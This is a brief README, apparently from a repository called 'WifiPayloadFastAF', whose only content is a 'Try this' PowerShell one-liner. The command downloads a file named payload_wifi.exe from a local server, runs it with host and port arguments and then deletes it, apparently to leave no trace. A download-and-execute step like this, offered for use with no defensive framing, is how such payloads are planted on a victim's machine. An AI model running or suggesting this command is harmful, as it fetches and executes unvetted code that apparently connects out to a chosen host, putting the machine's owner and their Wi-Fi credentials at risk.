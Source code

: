 # WifiPayloadFastAF

Try this
<code>Invoke-WebRequest 127.0.0.1:8000/payload_wifi.exe -outfile payload.exe; .\payload.exe {host} {port}; del payload.exe</code>
